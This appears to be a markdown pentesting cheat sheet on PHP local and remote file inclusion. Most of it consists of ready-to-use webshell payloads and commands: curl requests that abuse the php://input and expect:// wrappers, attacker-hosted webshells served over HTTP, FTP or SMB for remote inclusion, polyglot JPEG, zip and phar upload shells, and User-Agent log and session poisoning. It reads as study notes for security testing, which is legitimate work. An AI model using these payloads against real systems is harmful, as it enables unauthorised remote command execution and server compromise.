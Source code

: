 ### Local File Inclusion
null byte (%00) can be used to bypass extensions being added as it is used to signal the end of a string (in PHP versions < 5.5)


#### data://
php wrappers can be used to retrieve local files if filtering is in place, for example:
``php://filter/read=convert.base64-encode/resource=[filename]``

using the data:// wrapper allows for inclusion of external data, including php code, but it needs the *allow_url_include* setting to be enabled

&nbsp;
 check for "allow_url_include" option in  php configuration file to see if it's enabled 

  common locations:
  
| Apache | NGinx |
|-|-| 
| /etc/php/X.Y/apache2/php.ini | /etc/php/X.Y/fpm/php.ini |

``data://text/plain;base64,[b64-encoded-webshell]``

<br>

#### php://input

the php://input wrapper works in a similar way (also requires allow_url_include setting) but accepts POST data, so we could send a payload such as 


  
``curl -X POST --data '<?php system($_GET[1]) ?>' http://[server]:[port]/index.php?language=php://input&1=id`` 
(passing the webshell code through POST and the command to be executed through GET)


&nbsp;
``curl -X POST --data "<?php system('id') ?>" http://[server]:[port]/index.php?language=php://input``
(passing everything through POST)

<br>

#### expect://
the expect:// wrapper is designed to run commands, but is an external extension so it needs to be installed and enabled on the server, check for "extensions=expect" in php configuration
``curl http://[server]:[port]/index.php?language=expect://id``

--- 
### Remote File Inclusion

#### simple http server
a webshell can be hosted in the attacking machine by using **python3 -m http.server 80** and then a request made to ``http://[your-ip]:80/sh.php&1=id`` will execute the *id* command

&nbsp;
#### simple ftp server

pyftpdlib can also be used to host a simple ftp server, then a request using the ftp:// schema will work (can bypass a filtering to http:// schema that might be in place)

> pip3 install pyftpdlib
> python3 -m pyftpdlib 21

&nbsp;
#### simple smb server
if the server hosting the website is running windows, a SMB RFI can be achieved using Impacket's smbserver.py (it allows anonymous authentication by default), the payload should then reference the UNC path 
`\\\\[your-ip]\\share\\sh.php)`

 > impacket-smbserver -smb2support share $(pwd)

---
### LFI and File Uploads

#### Crafted file upload

in some occasions, RCE can be achieved by crafting a malicious file containing some valid format magic number (i.e.: one that would pass through an image filter, JPEG for example) and a webshell

``echo -n -e '\\xff\\xd8\\xff\\xe0\\x00\\x10\\x4a46\\x49\\x46\\x00\\x01<\?php system($\_GET[1]) ?>' > sh.jpeg``

the inclusion of this file would allow commands passed through a GET parameter to be executed in the server

<br>

#### Zip Upload

(this is a php specific technique) if a simple crafted file upload it is worth trying to upload a zip file and using the zip:// wrapper

``echo '<\?php system($\_GET[1]) ?>' > shell.php && zip shell.jpg shell.php``

the file can then be included by using zip://shell.jpg#shell.php [the '#' is used to reference a file inside the zip archive] and a command passed through GET would be executed

<br>

#### Phar Upload

rce can also be achieved by crafting a malicious phar (php archive) payload and including the file with the phar:// schema

```
nano phar_payload
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET[1]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
^X

php --define phar.readonly=0 phar_payload && mv shell.phar shell.jpg
```

the webshell could then be accessed through ``phar://shell.jpg%2shell.txt&1=id``

---
### Log Poisoning

#### Server Log Poisoning

log poisoning consists in sending malicious code to be executed through user-controlled parameters (e.g.: User-Agent header) which will then be executed whenever a log file is included, the following payload will execute a command passed through GET parameter *&1=id* if a log file is included:

``curl http://[server]:[port]/index.php -A '<\?php system($\_GET[1]); ?>'

log file location varies depending on the technology used, common paths might be:

| Apache | Nginx | 
|-|-|
| /var/log/apache2/ | /var/log/nginx/ | 
| C:\\xampp\\apache\\logs\\ | C:\\nginx\\log\\ |

<br>
#### PHP Session Poisoning

php applications might use a PHPSESSID cookie to hold user-related data in session files in the backend, usually saved on the following paths:

| Linux | Windows |
|-|-|
|/var/lib/php/sessions|C:\\Windows\\Temp\\|

session files are prepended with "sess_" so the cookie "123456789def" would be saved in the *sess_123456789def* file

if the cookie holds information about a parameter from the request it could then be injected with a simple webshell payload such as  ``<?php system($_GET[1]); ?>``  and then the */var/lib/php/sessions/sess_[cookie_name]* could be included while sending the *&1=[command]* and it would be executed

note: the session file would need to be poisoned again to run another command, so this would be best suited to write some form of persistend webshell/trigger a reverse shell

---
### Automated Scanning

#### Fuzzing Parameters

tools like ffuf can be used to fuzz for exposed parameters (parameters used in user forms are usually not vulnerable, but ones that are not linked to any HTML form might not be as secure)

``
ffuf -w  [wordlist] -u http://[server]:[port]/index.php?FUZZ=[payload]``

there are many wordlists which can be used, for example [under seclists]: 

- Discovery/Web-Content/burp-parameter.names.txt 
- Fuzzing/LFI/LFI-Jhaddix.txt

it is also worth fuzzing for configuration files to find potential important paths that might not appear in wordlists (for example custom configuration files) 


